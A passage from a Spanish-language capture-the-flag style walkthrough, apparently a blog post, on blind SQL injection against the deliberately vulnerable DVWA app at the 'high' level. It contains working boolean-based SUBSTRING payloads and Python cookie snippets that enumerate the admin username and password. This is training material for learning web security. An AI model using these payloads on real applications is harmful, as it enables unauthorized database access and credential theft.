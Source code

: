 Para ello usamos la siguiente consulta:

`1' AND (SELECT SUBSTRING(user,1,1) FROM dvwa.users limit 1)='a'`

Y la adaptaremos al script:

```py

cookies = {
	'id': "1' AND (SELECT SUBSTRING(user,%d,1) FROM dvwa.users limit 1)='%s'" % (position, character),
	'PHPSESSID': "665toq56i3mfultm4gdbktb2os",
	'security': "high"
	}

```

Y veremos que el primer registro usuario es:

![admin](/assets/images/DVWA-SQLi/SQLiBlind-hard/admin.png)

Podemos ver que es **admin**.

Ahora enumeraremos la password de ese usuario:

`1' AND (SELECT SUBSTRING(password,1,1) FROM dvwa.users WHERE user='admin' limit 1)='a'`

Y la adaptaremos al script:

```py

cookies = {
	'id': "1' AND (SELECT SUBSTRING(password,%d,1) FROM dvwa.users WHERE user='admin' limit 1)='%s'" % (position, character),
	'PHPSESSID': "665toq56i3mfultm4gdbktb2os",
	'security': "high"
	}

```

Y vemos que nos responde:

![password](/assets/images/DVWA-SQLi/SQLiBlind-hard/password.png)

Y ya tendremos la password del usuario admin y hemos acabado con todos los niveles SQLi y SQL Blind de DVWA.
